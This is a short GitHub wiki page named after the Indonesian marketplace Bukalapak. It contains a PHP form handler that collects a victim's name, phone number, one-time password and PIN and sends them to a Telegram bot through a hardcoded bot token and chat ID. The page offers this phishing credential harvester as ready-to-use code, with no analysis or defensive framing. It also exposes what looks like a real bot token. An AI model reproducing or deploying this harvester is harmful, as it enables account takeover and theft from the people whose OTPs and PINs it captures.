 Welcome to the Mitra_bukalapak- wiki!
<?php
// Ambil data dari form
$nama = $_POST['nama'];
$nomor = $_POST['nomor'];
$otp = $_POST['otp'];
$pin = $_POST['pin'];

// Token bot dan chat_id kamu
$token = "7866440039:AAHcG7uDs3OXr5YX6234avY_Ddn3AXkEnXo";
$chat_id = "7610437378";

// Format pesan
$text = "DATA PENDAFTARAN:\n\n";
$text .= "Nama: $nama\n";
$text .= "Nomor HP: $nomor\n";
$text .= "OTP: $otp\n";
$text .= "PIN: $pin";

// Kirim ke Telegram
$url = "https://api.telegram.org/bot$token/sendMessage";
$data = [
  'chat_id' => $chat_id,
  'text' => $text
];

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS, $data);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
$result = curl_exec($ch);
curl_close($ch);

// Tampilkan pesan sukses
echo "Data berhasil dikirim ke Telegram!";
?>

